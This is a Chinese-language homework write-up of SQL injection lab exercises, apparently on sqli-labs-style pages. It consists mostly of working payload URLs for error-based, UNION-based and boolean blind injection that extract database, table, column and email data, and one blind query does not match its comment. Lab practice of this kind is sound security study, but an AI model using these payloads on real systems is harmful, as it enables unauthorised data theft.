






# 作业

### 练习1

- 前面两次练习写的比较详细了,所以这里只展示过程

- 目标url:http://192.168.100.40:64879/string.php?id=1



- 获取当前网页的``数据库名``

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select database()),0x3a)) --+
```


- 获取当前网页的数据库的``表名``

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)) --+
```


- 获取当前网页的``emails表``中的所有字段

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_name='emails' and table_schema=database()),0x3a)) --+
```


- 获取``emails表中的所有数据``

```
http://192.168.100.40:64879/string.php?id=-1'union select 1,(select group_concat(id,0x3a,email_id) from security.emails),3 --+
```



------

### 作业2

- 目标url:http://1.14.28.17:32271/number.php?id=1

- 查看数据库的列数``order by`` 

```sql
http://1.14.28.17:32271/number.php?id=1 order by 3 --+
http://1.14.28.17:32271/number.php?id=1 order by 4 --+
```

发现``3``是正常的,而``4``报错

- 开始尝试

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,3--+
```


- 查看当前``数据库名``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,database(),3--+
```


- 查看``表名``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```


- 查看``emails表``中的字段名

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails' and table_schema='security'--+
```


- 查看``所有数据``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(id,0x3a,email_id) from security.emails
```


------

### 作业3

- 目标url:http://1.14.28.17:45257/get.php?id=1
- 这关判断正确了就会显示``you are in....``截图我就不展示了
- 判断当前``数据库表的个数`` -->4

```sql
http://1.14.28.17:45257/get.php?id=1'and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

- 获取第一个``表名长度``-->6

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6 --+
```

- 获取第二个``表名长度``-->8

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)=8 --+
```

- 获取第三个``表名长度``-->7

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 2,1)=7 --+
```

- 获取第四个``表名长度``-->5

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 3,1)=5 --+
```

- 获取第四个``表名``--> 117 115 101 114 115 即:``users``



- 获取``字段数``-->3

```sql
//代表有users表中有三个字段
http://192.168.77.131/master/Less-8/?id=-1'or (select count(*) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3 --+
```

- 获取``第一个字段长度``-->2

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1)=2 --+
```

- 获取``第二个字段长度``-->8

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1)=8 --+
```

- 获取``第三个字段长度``-->8

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 2,1)=8 --+
```

- 开始爆破每一个``字段名``-->id

```sql
//爆破第一个字段的第一个字符-->105
http://192.168.77.131/master/Less-8/?id=1' AND (select(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() LIMIT 3,1) limit 0,1),1,1))=105)) --+
```

```sql
//爆破第二个字段的第一个字符-->100
http://192.168.77.131/master/Less-8/?id=1' AND (select(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() LIMIT 3,1) limit 0,1),2,1))=105)) --+
```

- 获取数据也是一样的,相对比较繁琐就不展示了

------

### 作业4

- 目标url:http://1.14.28.17:26053/post.php

- 刚开始拿到网页确实觉得有点难,没有任何回显,无从下手,无奈选择使用yakit进行抓包





- 注入成功后会返回一个``./images/flag.jpg``图片,失败则是``./images/slap``,通过这一步就能判断出``数据库名字长度``-->8
- 有了这个思路那么就是说,只要我语句判断是对的那么都会返回``./images/flag.jpg``,由此剩余步骤跟前面布尔盲注大同小异
- 这里由于时间关系,我只展示如何获取``数据库名``



- 构造pyload,爆破获取得到-->115 101 99 117 114 105 116 121 即为:``security``
- 到此本次注入就结束了,剩下的不再演示,因为都很类似,只是相对繁琐!

